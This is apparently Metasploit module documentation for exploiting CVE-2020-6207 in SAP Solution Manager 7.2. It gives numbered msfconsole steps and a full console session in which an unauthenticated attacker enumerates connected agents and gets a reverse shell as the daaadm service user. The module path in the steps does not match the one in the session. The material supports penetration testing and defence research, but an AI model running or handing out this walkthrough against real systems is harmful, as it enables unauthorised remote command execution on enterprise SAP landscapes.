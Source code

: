 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting a SOAP request to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF) and execute OS command on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation will allow unauthenticated remote attackers to get reverse shell from connected to the SolMan
agent as the user under which it runs SMDAgent service, usually daaadm.

Paper: [An Unauthenticated Journey to Root][1]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is highly connected with powerful privileges to all other SAP systems.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all the systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][2].

Once set up and configured, the instances will be vulnerable at the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rs`
1. Do: `set RHOSTS [SolMan IP]`
1. Do: `set LHOST [Your IP]`
1. Do: `check`
1. Verify that the target is vulnerable and the list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `exploit`
1. Verify that the session from the connected agent was created.

## Options

### URIPATH

This is the path to the EEM admin page of the SolMan that is vulnerable to CVE-2020-6207.
By default, it is set to `/EemAdminService/EemAdmin`. However, it can be changed if SolMan
was installed by a path different from that of the web root. For example, if the SolMan
server was proxied to the `/solman/` path under the web root, then this value would be
set to `/solman/EemAdminService/EemAdmin`.

### AGENT

Connected agent server name.
Example: `linux_agent`

## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use exploit/multi/sap/cve_2020_6207_solman_rs
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set LHOST 192.168.50.2
LHOST => 192.168.50.2
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > check

[+] Connected agents list:
+--------------+------------------------+---------------+------------------------+--------------+
| Server Name  | Host Name              | Instance Name | OS Name                | Java Version |
+--------------+------------------------+---------------+------------------------+--------------+
| test_linux   | SAPERP.corp.test.com   | SMDA98        | Linux                  | 1.8.0_25     |
| test_windows | SAP731.corp.test.com   | SMDA97        | Windows Server 2008 R2 | 1.6.0_29     |
+--------------+------------------------+---------------+------------------------+--------------+
[+] 172.16.30.46:50000 - The target is vulnerable.
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                            References
---------                ----          ----                                                            ----------
2021-03-21 10:17:11 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution  CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/SAP_EEM_CVE-2020-6207,URL-https://launchpad.support.sap.com/#/notes/2890213

msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set AGENT test_linux
AGENT => test_linux
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > exploit

[*] Started reverse TCP handler on 192.168.50.2:4444
[*] Agent: test_linux
[*] OS: Linux
[*] Interpreter: /bin/sh
[*] Enable EEM on agent: test_linux
[*] Start script: b4CyuGQxGdfk with RCE payload on agent: test_linux
[*] Command shell session 1 opened (192.168.50.2:4444 -> 172.16.30.14:24141) at 2021-03-21 13:24:21 +0300

pwd
/usr/sap/DAA/SMDA98/SMDAgent
id
uid=1004(daaadm) gid=1001(sapsys) groups=1001(sapsys),1000(sapinst)
background

Background session 1? [y/N]  y
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > sessions

Active sessions
===============

  Id  Name  Type              Information  Connection
  --  ----  ----              -----------  ----------
  1         shell java/linux               192.168.50.2:4444 -> 172.16.30.14:24141 (172.16.30.46)

```

[1]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[2]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/
